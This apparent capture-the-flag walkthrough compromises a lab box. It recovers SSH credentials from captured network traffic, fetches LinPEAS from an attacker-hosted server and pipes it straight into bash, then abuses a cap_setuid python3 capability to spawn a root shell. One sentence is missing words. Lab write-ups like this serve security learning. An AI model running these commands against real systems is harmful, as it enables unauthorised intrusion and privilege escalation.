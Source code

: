 
We start with nmap
```
nmap -sC -sV {victim ip}
```

We use FTP to login to the victim's box. 

```
ftp {victim's ip}
```
The login with anonymous access fails, so we attempt to login through the HTTP server.

We can visit the web application via `{ip}:80` and there is a data dashboard there without login.

When opening the web address `10.10.10.245/data/0` and capturing the output in wireshark, we get the credentials `nathan:Buck3H4TFORM3!`, we use this to `ssh` into the victim's box.

### Privilege Escalation

On our local we download linpeas and run `sudo python3 -m http.server 80` so we can get it via `curl` from the victim's box.

```
curl http://10.10.14.24/linpeas.sh | bash
```

After running LinPEAS on the attacking box we get

```
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

The report contains an interesting entry for files with capabilities. The is found to have and , which isn't the default setting. According to the documentation, allows the process to gain setuid privileges without the SUID bit set. This effectively lets us switch to UID 0 i.e. root. The developer of Cap must have given Python this capability to enable the site to capture traffic, which a non-root user can't do.

The following Python commands will result in a root shell:

```
import os  
os.setuid(0) 
os.system("/bin/bash")
```

It calls os.setuid() which is used to modify the process user identifier (UID).

If I run:

```
$ id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```

I can therefore get the root flag by `cat /root/root.txt`
